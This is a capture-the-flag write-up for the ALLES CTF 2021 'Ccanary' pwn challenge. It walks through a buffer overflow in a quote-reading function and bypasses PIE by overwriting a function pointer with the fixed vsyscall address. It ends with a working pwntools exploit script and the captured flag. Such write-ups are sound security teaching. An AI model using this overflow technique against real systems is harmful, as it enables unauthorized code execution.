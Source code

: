## Pwn

### Code analysis

**Buffer-overflow** spotted !!!

```c
// FIXME: this partial-overwrite mitigation sucks :/
void quotegets(char* inp) {
    *inp = '"';
    // read input
    for (; *inp != '\n';)
        *++inp = fgetc(stdin);
    // append postfix
    for (char* postfix = "\"\n- you, 2021"; *postfix; postfix++)
        *inp++ = *postfix;
    // NUL-terminate
    *inp = 0;
}
```


Look at the main function. We can override the `call_canary()` function address and `give_flag` inside struct variable.

```c
int main(void) {
    ignore_me_init_buffering();
    struct data data = {
        .yourinput = { 0 },
        .call_canary = canary,
        .give_flag = 0,
    };

    printf("quote> ");
    quotegets((char*) &data.yourinput);

    data.call_canary();
    puts("good birb!");

    puts("");
    puts((char*) &data.yourinput);

    if (data.give_flag) {
        puts("Here's the flag:");
        system("cat flag");
    }
    return 0;
}
```


### Exploit

Unfortunately, the binary has **PIE** enabled ( ASLR ), which mean the function's address of `call_back` is random in every execution.

```bash
[*] '/home/kali/ALLES-CTF-2021/Ccanary/ccanary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Thanks to some awesome write-up on the internet, I stumble across the [vsyscall](http://terenceli.github.io/技术/2019/02/13/vsyscall-and-vdso)

Vsyscall addresses are fixed in every execution. Start of `vsyscall`
```c
    #define VSYSCALL_ADDR_vgettimeofday   0xffffffffff600000
    #define VSYSCALL_ADDR_vtime           0xffffffffff600400
    #define VSYSCALL_ADDR_vgetcpu          0xffffffffff600800
```

When we change to the address `0xffffffffff600000` , worked like a charm

```bash
┌──(kali㉿kali)-[~/ALLES-CTF-2021/Ccanary]
└─$ python3 tinker.py
[+] Opening connection to 7b000000c117bbce0a6aee01-ccanary.challenge.master.allesctf.net on port 31337: Done
[*] Switching to interactive mode
good birb!

"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Here's the flag:
ALLES!{th1s_m1ght_n0t_work_on_y0ur_syst3m_:^)}

```

Full code:
```python
from pwn import *

payload = b"A"*31 + p64(0xffffffffff600000)
p = remote("7b000000c117bbce0a6aee01-ccanary.challenge.master.allesctf.net",31337, ssl=True)
p.sendlineafter(b"quote> ",payload)
p.interactive()
```